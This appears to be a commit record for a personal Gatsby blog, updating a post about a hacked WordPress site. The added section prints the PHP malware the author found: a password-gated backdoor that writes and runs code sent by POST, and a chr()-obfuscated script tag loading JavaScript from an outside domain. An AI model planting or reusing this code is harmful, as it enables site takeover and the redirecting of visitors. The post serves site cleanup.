

Before and after one commit to ryderwishart/ryder-dev, a Gatsby site: page /wordpress-site-hacked-redirecting/ in a window 1280 px wide. Shown: the part 2574-3176 px from the top of the page at 81% size, 1920 px wide, since content can reach past the window. Before the commit the page ends 2922 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; Gatsby itself is replaced by a stand-in of ours; some packages are replaced by stand-ins of ours; code samples lack their colours.

Commit message:
Update wordpress hack blog post

````diff
--- a/content/blog/wordpress-site-hacked-redirecting/index.md
+++ b/content/blog/wordpress-site-hacked-redirecting/index.md
@@ -66,3 +66,21 @@ for subdir, dirs, files in os.walk(os.getcwd()): # Note: operates within the cur
 ## Possible Cause: Thrive Themes Plugins?
 
 As a side-note, this particular vulnerability may be related to a Thrive Themes unused-Zapier-API-key exploit. See [source](https://rootdaemon.com/2021/03/25/hackers-start-exploiting-recent-vulnerabilities-in-thrive-theme-wordpress-plugins/).
+
+## Update
+
+Here is the malicious code that was causing the problem (i.e. going through my site directory and creating or updating `index.php` files everywhere):
+
+```php
+if(isset($_POST['zi'])
+    && md5($_POST['zi']) == base64_decode('M2UwZWFhNWFlNGE1NzRjMGYzYjEyOTRmZGQwZTg1ZTQ=') ) {
+    $lt = base64_decode($_POST['a']);file_put_contents('lte_','<?php '.$lt);$lt='lte_';
+if(file_exists($lt)){
+    include($lt);unlink($lt);die();
+}
+} else {
+    echo chr(60).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(32).chr(115).chr(114).chr(99).chr(61).chr(39).chr(104).chr(116).chr(116).chr(112).chr(115).chr(58).chr(47).chr(47).chr(115).chr(116).chr(105).chr(99).chr(107).chr(46).chr(116).chr(114).chr(97).chr(118).chr(101).chr(108).chr(105).chr(110).chr(115).chr(107).chr(121).chr(100).chr(114).chr(101).chr(97).chr(109).chr(46).chr(103).chr(97).chr(47).chr(97).chr(110).chr(97).chr(108).chr(121).chr(116).chr(105).chr(99).chr(115).chr(46).chr(106).chr(115).chr(63).chr(115).chr(61).chr(48).chr(55).chr(38).chr(98).chr(61).chr(51).chr(52).chr(53).chr(38).chr(99).chr(105).chr(100).chr(61).chr(55).chr(52).chr(53).chr(55).chr(45).chr(56).chr(53).chr(45).chr(50).chr(51).chr(52).chr(54).chr(55).chr(56).chr(56).chr(45).chr(50).chr(52).chr(39).chr(32).chr(116).chr(121).chr(112).chr(101).chr(61).chr(39).chr(116).chr(101).chr(120).chr(116).chr(47).chr(106).chr(97).chr(118).chr(97).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(39).chr(62).chr(60).chr(47).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(62);
+}
+```
+
+Note: you will want to make sure that you don't delete index files in their entirety if they are only partly malicious code. Wordpress has important index files you will need to hang onto. If you accidentally delete one of these, you can find them in the [Wordpress source code](https://github.com/WordPress/WordPress).
````
